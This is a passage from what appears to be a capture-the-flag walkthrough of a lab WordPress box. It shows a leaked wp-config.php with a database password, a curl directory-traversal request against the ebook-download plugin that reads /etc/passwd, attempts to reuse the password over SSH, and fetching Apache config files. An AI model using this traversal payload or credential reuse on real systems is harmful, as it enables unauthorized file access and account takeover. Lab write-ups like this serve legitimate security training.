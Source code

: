     // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );

    /** MySQL database username */
    define( 'DB_USER', 'wordpressuser' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

    /** Database charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8' );

    /** The database collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );
    ...[snip]...



I can try to log into WordPress at`http://backdoor.htb/wp-login.php`
with the username admin and wordpressuser, but neither work.

#### Filesystem Enumeration

The challenge with directory traversal / file read vulns is that you
typically can't list directories, only access files I know to exist.

`/etc/passwd` will provide a list of users:



    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
    ../../../../../../../etc/passwd../../../../../../../etc/passwd../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    <script>window.close()</script>



I can try the DB password with user and root over SSH, but it doesn't
work.

Apache configs is something I can try to grab.
`/etc/apache2/sites-enabled/000-default.conf` doesn't returns anything,
but `backdoor.htb.conf` does (comments removed):



    <VirtualHost *:80>

            ServerName backdoor.htb
            ServerAlias *
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www.md
